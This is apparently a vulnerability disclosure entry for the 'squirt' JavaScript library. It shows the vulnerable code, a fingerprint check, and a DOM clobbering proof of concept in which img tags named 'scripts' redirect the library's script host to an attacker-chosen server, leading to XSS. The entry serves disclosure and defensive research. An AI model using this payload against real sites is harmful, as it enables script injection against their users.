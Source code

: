 ## squirt

### Meta

+ Library: squirt
+ Stars: 1.2K
+ Version: v0.0.1
+ Fingerprint: `typeof window.sq !== 'undefined'`
+ Payload: ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/cameron/squirt/tree/master

### Vulnerable Code Snippet

```javascript
var sq = window.sq;
sq.version = '0.0.1';
sq.host =  window.location.search.match('sq-dev') ?
  document.scripts[document.scripts.length - 1].src.match(/\/\/.*\//)[0]
        : '//www.squirt.io/bm/';
```


## PoC

Visit the page: `http://10.161.159.131:8080/squirt/poc.html?sq-dev=localhost:9999`

```html
<!--Library-->
<script> window.sq = {}; </script>
<script src="./squirt.js"></script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```

